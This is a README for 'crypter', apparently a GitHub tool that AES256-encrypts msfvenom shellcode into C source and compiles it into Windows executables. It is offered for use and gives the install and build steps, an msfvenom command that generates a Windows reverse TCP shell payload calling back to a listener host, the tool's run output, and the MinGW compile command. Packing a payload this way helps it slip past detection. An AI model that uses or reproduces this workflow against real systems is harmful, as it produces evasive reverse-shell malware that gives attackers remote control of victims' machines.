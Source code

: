 # crypter
A shellcode crypto-packing tool for PoC (used with msfvenom/binary payloads)

This tool is for proof of concept only - please use responsibly.

Crypter is an auxiliary tool used for crypto packing msfvenom Windows payloads.
It uses AES256 to encrypt the payload and create C source from it from which you can compile (on linux or windows) into an executable.

You will need to install `MinGW` on Linux in order to compile `.exe` files:

```
$ apt-get update
$ apt-get install mingw-w64
```
________________________________

#Install

First, you will need to install the dependency/dependencies that `crypter` relies on (mainly OpenSSL):

```
$ apt-get install libssl-dev
```

Then, download this repository and install:

```
$ git clone https://github.com/ripmeep/crypter/ && cd crypter
$ gcc crypter.c -o crypter -lcrypto -I src/
```

#Usage

You will need to generate/already have a file that contains raw shellcode that you wish to execute in an exe file.
Metasploit is a good way of generating one for reverse shells/exploits. (https://github.com/rapid7/metasploit-framework/)

Generate a payload:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[LISTENER IP] LPORT=[LISTENER PORT] -f raw -o payload.bin
```

Run crypter to crypto pack the shellcode into a C source binary:

```
$ crypter payload.bin shell.exe
Extracted contents of payload.dat
Generated random AES256 Cryto Pack key: 924C2038A4B0DEFDF8420A2A896688CE900DD26109759A4CAE0681A147A64FA5
Generated random initialization vector: 34A7B03E8F2CD3023ED2BF78ECC8AE846D84B30F96E97BC02189820276DEB229
Successfully encrypted payload - generating exe file

Generated Crypto C source
Writing source to shell.exe.c...
Done
Now run: x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector
Finished
```

It will then display the MinGW command you need to run to compile the source file.
`x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector` (my case).
